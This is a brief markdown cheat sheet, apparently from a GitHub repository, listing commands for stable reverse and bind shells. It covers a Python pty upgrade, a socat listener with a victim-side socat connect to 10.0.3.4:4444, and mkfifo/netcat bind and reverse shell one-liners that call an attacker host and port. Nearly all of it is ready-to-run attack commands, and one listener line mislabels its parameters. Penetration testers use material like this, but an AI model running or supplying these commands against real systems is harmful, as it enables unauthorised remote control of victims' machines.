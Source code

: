 # Stable revers Shell 

### Using Python for a psuedo terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo
```

## Using socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Bind Shell 
```
# Victim Machine

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

# Attacker Machine

nc -nv victim_ip victim_port
```

## Reversh Shell

```
## Victim Machine

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc attcker_ip attacker_port > /tmp/f

## Attacker

nc -nlvp victim_IP victim_PORT 

```
